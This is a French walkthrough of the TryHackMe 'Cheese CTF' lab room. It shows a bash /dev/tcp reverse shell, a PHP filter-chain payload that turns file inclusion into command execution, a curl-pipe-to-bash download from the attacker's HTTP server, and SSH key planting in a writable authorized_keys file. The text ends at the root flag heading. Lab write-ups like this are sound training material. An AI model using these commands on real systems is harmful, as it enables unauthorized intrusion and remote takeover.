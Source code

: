 ```yaml
---
title: "TryHackMe Room Cheesectfv10"
seoTitle: "Cheesectfv10: Explore the TryHackMe Challenge"
seoDescription: "Learn how to gain shell access using reverse shells and PHP filter chains in the TryHackMe Cheese CTF Room"
datePublished: Tue May 06 2025 16:06:14 GMT+0000 (Coordinated Universal Time)
cuid: cmacpbxs0000109ikes4r0u3m
slug: tryhackme-room-cheesectfv10
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1746543221556/353365c1-1112-43c2-973d-890a1e22c750.png
tags: shell, cybersecurity-1, tryhackme, tryhackme-walkthrough, cheesectfv10

---
```


Lien de la room: [TryHackMe | Chese CTF](https://tryhackme.com/room/cheesectfv10)

# Énumération

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746549859868/eeba2534-e13f-4180-87dc-15d04525f83a.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746549887341/b953e0e6-86f7-4548-9f25-46e2840b248b.png align="center")

# Obtenir l’accès shell

## Avec le paramètre cmd

1. Créer un fichier `shell.sh` pour mon script de reverse shell. On veut donc initier la connexion depuis la machine cible.
    

Remplacer 10.10.102.158 par l’adresse IP de votre machine.

```bash
cat shell.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.102.158/4444 0>&1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544143626/615e08b3-a3e5-4eaa-91cc-19bea55574bf.png align="center")

2. Démarrer le listener netcat sur la machine principale pour écouter les connexions entrantes sur le port 4444
    

```bash
nc -lvnp 4444
```

3. Démarrer un serveur HTTP qui va contenir le fichier `shell.sh`. Le fichier doit être dans le le répertoire courant où vous exécutez la commande.
    

```bash
python -m http.server 8000
```

4. Utiliser l’outil [php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator) pour générer la chaîne de filtres PHP
    

```bash
python3 attack.py --chain '<?php system($_GET["cmd"]); ?>'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544061591/53a75b57-8673-40b2-855d-4f3f19525946.png align="center")

Ici on utilise `'<?php system($_GET["cmd"]); ?>'` car on veut exécuter des commandes sur le serveur cible via le paramètre `cmd` dans l’URL. On veut exploiter une vulnérabilité de type Local File Inclusion LFI afin d’exécuter des commandes arbitraires sur la cible.

5. Modifier l’URL vulnérable pour y ajouter `la chaîne de filtres PHP générée` et le paramètre `cmd`.
    

URL de base: <mark>http://10.10.162.24/secret-script.php?file=php://filter/resource=users.html</mark>

Début de la chaîne de filtre PHP : <mark>php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode</mark>

Fin de la chaîne de filtre PHP: <mark>UTF8.UTF7|convert.base64-decode/resource=php://temp</mark>

On rajoute donc le paramètre <mark>&amp;cmd=curl http://10.10.102.158:8000/shell.sh | bash</mark> à la fin de la chaîne de filtre PHP et on obtient ainsi le reverse shell.

* `curl http://10.10.102.158:8000/revshell.sh`: utilise l’outil curl pour télécharger le fichier shell.sh depuis le serveur HTTP sur le port 80
    
* `| bash`: redirige la sortie de la commande curl vers l’interpréteur de commandes bash, pour exécuter le script.
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746547286658/cabf2748-9b25-4180-8215-00b55abacc29.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746545277448/eb5f10ea-c90f-4b52-865c-e53d93920002.png align="center")

## Avec curl

On peut aussi spécifier directement la commande curl dans le payload lors de la génération de la chaîne de filtres PHP. C’est une alternative pour exécuter directement la commande curl sur le serveur, sans avoir à passer de paramètres supplémentaires à l’URL.

```bash
python3 attack.py --chain '<?= `curl 10.10.102.158:8000/shell.sh | bash` ?>'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746548656865/269b63b9-85e4-44f9-9f18-439422d48219.png align="center")

Ce payload utilise la syntaxe courte `<?= ?>` pour exécuter la commande `curl` qui télécharge et exécute le script `shell.sh` depuis le serveur HTTP.

Une fois la chaîne de filtres générée, on peut l’intégrer dans l’URL et obtenir l’accès sur la machine en reverse shell.

# Flag user.txt

On veut lire le contenu du fichier user.txt

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746637426433/df5bbc2e-1837-4ed3-84ee-beb3dba45cb0.png align="center")

Il faut donc trouver un moyen de pouvoir lire le contenu du fichier `user.txt`. Seul le propriétaire `comte` a le droit de lire et écrire dans le fichier. Vu qu’on est connecté à `www-data`, on a aucun droit.

On essaiera de vérifier si `www-data` n’a pas accès à d’autres fichiers ou répertoires.

```bash
find /home/comte -type f -readable -writable
```

Cette commande permet de lister les fichiers dans le répertoire `/home/comte` et les sous-répertoires, que l’utilisateur `www-data` peut lire (-readable) et écrire (-writable).

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746640001975/81188dc6-acc5-4a33-b148-cd4c365e96e2.png align="center")

On peut donc voir que le fichier `authorized_keys` dans le répertoire `/.ssh` peut être lisible et modifiable par `www-data`.

Ce fichier est composant du mécanisme d’authentification par clé publiques de SSH. Il contient une liste de clés publiques SSH appartenant aux utilisateurs autorisés à se connecter à un compte spécifique. Il fonctionne avec une clé privée, qui est sur la machine de l’utilisateur qui se connecte.

À noter que dans le cas d’une authentification par clé SSH, on a pas besoin du mot de passe de l’utilisateur car SSH utilise la correspondance entre la clé privée et la clé publique placée dans le fichier `authorized_keys` de `comte`.

Sur la machine principale, on génère une paire de clé avec la commande `ssh-keygen -t rsa`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746641847543/328ec365-afe3-45b9-9efd-8ee996d561b7.png align="center")

On obtient une clé privée (key\_rsa) et la clé publique associée (key\_rsa.pub).

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746643650075/beb7c51c-a5b8-4a65-ba70-dbcf34bbc76f.png align="center")

Il faut ensuite copier le contenu de la clé publique dans le fichier `authorised_keys` de la machine cible afin dese connecter au compte `comte` depuis la machine principale via SSH.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746642068184/5ad91320-1162-41c2-a33a-731dffbb60a5.png align="center")

Sur la machine principale sur laquelle la paire de clés a été générée, lancer la connexion ssh en utilisant la clé privée.

```bash
ssh -i key_rsa comte@10.10.46.126
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746642211249/e31cf5fa-7c8a-4ce6-b327-087961a17ed0.png align="center")

On a arrive donc à se connecter au compte `comte` et on obtient le flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746642243905/677b07a0-477f-4c2a-9aa1-c37b1556f7d7.png align="center")

# Flag root.txt